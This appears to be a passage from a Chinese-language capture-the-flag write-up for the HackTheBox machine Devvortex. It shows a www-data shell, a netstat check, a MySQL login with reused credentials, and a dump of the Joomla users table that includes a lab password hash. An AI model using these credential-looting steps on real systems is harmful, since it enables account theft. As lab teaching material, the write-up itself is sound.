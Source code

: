 
```bash
www-data@devvortex:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


## flag: user

如上面文章所说，之前的凭据是本地MySQL的。看了眼端口确实有：
```bash
www-data@devvortex:/$ netstat -anotl
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       Timer
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      off (0.00/0/0)
 ...
```

于是进MySQL准备拖库：
```bash
www-data@devvortex:/$ mysql -u lewis -p joomla
Enter password: 
 (...)
mysql> show tables;
+-------------------------------+
| Tables_in_joomla              |
+-------------------------------+
| sd4fg_action_log_config       |
 (...)
| sd4fg_users                   |
| sd4fg_viewlevels              |
| sd4fg_webauthn_credentials    |
| sd4fg_workflow_associations   |
| sd4fg_workflow_stages         |
| sd4fg_workflow_transitions    |
| sd4fg_workflows               |
+-------------------------------+
71 rows in set (0.00 sec)

mysql> select * from sd4fg_users;
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| id  | name       | username | email               | password                                                     | block | sendEmail | registerDate        | lastvisitDate       | activation | params                                                                                                                                                  | lastResetTime | resetCount | otpKey | otep | requireReset | authProvider |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| 649 | lewis      | lewis    | lewis@devvortex.htb | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |     0 |         1 | 2023-09-25 16:44:24 | 2023-11-28 02:32:37 | 0          |                                                                                                                                                         | NULL          |          0 |        |      |            0 |              |
```